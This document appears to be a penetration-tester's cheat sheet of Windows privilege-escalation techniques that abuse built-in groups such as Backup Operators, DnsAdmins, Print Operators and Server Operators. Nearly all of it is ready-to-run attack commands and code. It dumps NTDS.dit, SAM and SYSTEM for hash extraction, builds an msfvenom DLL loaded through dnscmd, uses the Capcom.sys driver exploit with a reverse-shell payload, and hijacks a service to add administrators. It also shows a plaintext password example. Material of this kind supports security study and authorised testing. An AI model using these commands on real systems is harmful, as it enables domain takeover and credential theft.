

Backup Operators
---
If privilege is assigned but not enabled
https://github.com/giuliano108/SeBackupPrivilege
```
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
Set-BackupPrivilege
```
Copying a protected file
```
Copy-FileSeBackupPrivilege 'C:\Confidential\2021 Contract.txt' .\Contract.txt
type .\Contract.txt
```
NTDS.dit
Creating a shadow copy of C drive and exposing it as E


```shell
Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Tools\ntds.dit
```
Backup SAM and SYSTEM registry to use with secretsdump.py
```
reg save HKLM\SYSTEM SYSTEM
reg save HKLM\SAM SAM
```
```
impacket-secretsdump -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL
```
Robocopy - a built-in tool; to copy files
```
robocopy /B E:\Windows\NTDS .\ntds ntds.dit
```

Event Log Readers
---
Query Windows events
```
wevtutil qe Security /rd:true /f:text | Select-String "/user"
```
```
Get-WinEvent -LogName security | where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*'} | Select-Object @{name='CommandLine';expression={ $_.Properties[8].Value }}
```
Pass credentials to wevtutil or run as another user using -Credential
```
wevtutil qe Security /rd:true /f:text /r:share01 /u:julie.clay /p:Welcome1 | findstr "/user"
```

DnsAdmins
---
Add user to domain admins group
```
msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll
```
- Transfer to target
Loading DLL as DnsAdmins member
```
dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll
```
Restart the DNS service
```
wmic useraccount where name="netadm" get sid
sc.exe sdshow DNS
```
```
sc.exe stop dns
sc.exe start dns
```
```
gpupdate /force or log back in (shutdown /l)
```
- We can add a reverse shell as well instead of adding a user 

Command Execution
https://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html
```
/*  Benjamin DELPY `gentilkiwi`
    [https://blog.gentilkiwi.com](https://blog.gentilkiwi.com)
    benjamin@gentilkiwi.com
    Licence : [https://creativecommons.org/licenses/by/4.0/](https://creativecommons.org/licenses/by/4.0/)
*/
#include "kdns.h"

DWORD WINAPI kdns_DnsPluginInitialize(PLUGIN_ALLOCATOR_FUNCTION pDnsAllocateFunction, PLUGIN_FREE_FUNCTION pDnsFreeFunction)
{
    return ERROR_SUCCESS;
}

DWORD WINAPI kdns_DnsPluginCleanup()
{
    return ERROR_SUCCESS;
}

DWORD WINAPI kdns_DnsPluginQuery(PSTR pszQueryName, WORD wQueryType, PSTR pszRecordOwnerName, PDB_RECORD *ppDnsRecordListHead)
{
    FILE * kdns_logfile;
#pragma warning(push)
#pragma warning(disable:4996)
    if(kdns_logfile = _wfopen(L"kiwidns.log", L"a"))
#pragma warning(pop)
    {
        klog(kdns_logfile, L"%S (%hu)\n", pszQueryName, wQueryType);
        fclose(kdns_logfile);
        system("ENTER COMMAND HERE");
    }
    return ERROR_SUCCESS;
}
```

Print Operators
---
Capcom.sys driver allows anyone to execute code as SYSTEM. Use the tool to enable privilege
https://raw.githubusercontent.com/3gstudent/Homework-of-C-Language/master/EnableSeLoadDriverPrivilege.cpp
```
#include <windows.h>
#include <assert.h>
#include <winternl.h>
#include <sddl.h>
#include <stdio.h>
#include "tchar.h"
```
- Paste these into the file
- Replace line 292 ("C:\\Windows\\system32\\cmd.exe") with a msfvenom reverse shell ("c:\ProgramData\revshell.exe")
Compile
```
cl /DUNICODE /D_UNICODE EnableSeLoadDriverPrivilege.cpp
```
Download Capcop.sys driver
[https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys](https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys)
```
reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\Tools\Capcom.sys"
reg add HKCU\System\CurrentControlSet\CAPCOM /v Type /t REG_DWORD /d 1
```
```
.\EnableSeLoadDriverPrivilege.exe
```
Download ExploitCapcom tool
https://github.com/tandasat/ExploitCapcom
```
.\ExploitCapcom.exe
```
- If we do not receive reverse shell then try bind shell, or adding a new user

Automation
https://github.com/TarlogicSecurity/EoPLoadDriver/
```
EoPLoadDriver.exe System\CurrentControlSet\Capcom c:\Tools\Capcom.sys
```

Server Operators
---
Members can also log into the DC
Find a service that starts with SYSTEM
```
sc.exe qc AppReadiness
PsService.exe security AppReadiness
```
Modify the service path to add user to administrators group
```
sc.exe config AppReadiness binPath= "cmd /c net localgroup Administrators server_adm /add"
```
Start the service (it should fail)
```
sc.exe start AppReadiness
```
We should have entire domain control
```
impacket-secretsdump server_adm@10.129.43.9 -just-dc-user administrator
```
